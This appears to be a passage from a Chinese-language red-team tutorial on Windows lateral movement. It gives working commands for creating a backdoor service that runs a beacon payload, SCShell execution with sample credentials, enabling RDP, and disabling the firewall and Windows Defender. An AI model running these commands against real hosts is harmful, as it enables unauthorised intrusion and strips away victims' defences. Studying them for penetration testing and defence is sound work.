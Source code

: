 除了创建计划任务，攻击者还可以通过在远程主机上创建系统服务的方式，在远程主机上运行指定的程序或命令，该攻击方式需要拥有两端主机的管理员权限和`IPC$`连接，具体操作如下：

- 利用已建立的共享连接向远程主机上传攻击载荷；
- 利用已建立的`IPC`连接在远程主机上创建系统服务，执行命令。

```powershell
# binpath指定服务启动时运行的二进制文件, 注意=后面需要由一个空格
sc \\192.168.93.30 create Backdoor binpath= "cmd.exe" /k C:\beacon.exe

# 立即启动创建的系统服务, 此时可能会提示错误, 但是已经获取了远程主机的权限
sc \\192.168.93.30 start Backdoor

# 删除服务
sc \\192.168.93.30 delete Backdoor
```

## SCShell

`SCShell`是一款利用系统服务的无文件横向移动工具，需要提供远程主机的管理员权限用户的凭据，并且需要知道远程主机上的系统服务名称，利用方法如下：

```powershell
# SCShell.exe <target> <service name> <payload> <domain> <username> <password>
SCShell.exe 192.168.93.30 Backdoor "C:\Windows\System32\cmd.exe /c calc" hacker.com Administrator H3rmesk1t@123
```

# 远程桌面利用

远程桌面协议（`Remote Desktop Protocol`，`RDP`）是微软从`Windows Server 2000`开始提供的功能。用户可以通过该功能登录并管理远程主机，远程桌面协议默认监听`TCP 3389`端口。

当内网中的其他主机开启了远程桌面服务后，攻击者可以通过已获取的用户凭据，借助内网代理等技术进行远程登录，但是这种方法可能会将已登录的用户强制退出，容易被管理者发现。

## 判断远程桌面是否开启

通过查询注册表来确定当前主机是否开启了远程桌面功能，若返回字段值为`0`，则说明`RDP`服务已启动；若返回字段值为`1`，则说明`RDP`服务已禁用。

```powershell
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

开启远程桌面功能相关命令：

```powershell
# 开启远程桌面连接功能
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# 关闭“仅允许运行使用网络级别身份验证的远程桌面的计算机连接”（鉴权）
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
# 设置防火墙策略放行3389端口
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
# 关闭防火墙
netsh advfirewall set allprofiles state off
# 关闭Denfnder
net stop windefend
```
